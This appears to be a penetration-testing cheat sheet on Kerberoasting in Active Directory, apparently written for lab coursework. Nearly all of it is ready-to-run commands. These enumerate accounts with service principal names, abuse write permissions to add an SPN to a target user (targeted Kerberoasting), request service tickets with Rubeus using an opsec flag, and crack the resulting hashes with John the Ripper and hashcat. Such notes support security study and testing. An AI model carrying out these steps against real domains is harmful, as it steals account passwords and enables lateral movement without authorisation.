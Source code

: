 # Kerberoasting

When a user account has a Service Principal Name, it is possible to request a Service Ticket for the service mentionned in the SPN.

The Service Ticket is encrypted with the password of the user account: it is possible to crack the ST to retrieve the user account's password.



## List users that have SPN

```powershell
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

## List users that have SPN in trusted forest

```powershell
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server dc.trust.local
```

## Set SPN to user

If our user has `GenericWrite` or `GenericAll` to another user, it is then possible to write an SPN and perform a targeted kerberoast attack.

```powershell
# List our privileges on the group StudentUsers
[PowerView]> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
# Or use BloodHound to find this
```

Update SPN:

```powershell
> Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='domain/SPN'} -Verbose
[PowerView]> Set-DomainObject -Identity <username> -Set @{serviceprincipalname='domain/SPN'} -Verbose
```

Check that SPN has been updated:

```powershell
> Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName
```

## Request ST

This command requests a Service Ticket for user `username`. The `/rc4opsec` flag only requests tickets for user accounts that support RC4.&#x20;

```powershell
> Rubeus.exe kerberoast /user:<username> /simple /nowrap /rc4opsec /outfile:hashes.txt
```

## Crack with JtR or hashcat

```powershell
> john.exe --wordlist=<path_to_wordlist> hashes.txt
> hashcat -m 13100 hashes.txt <path_to_wordlist>
```
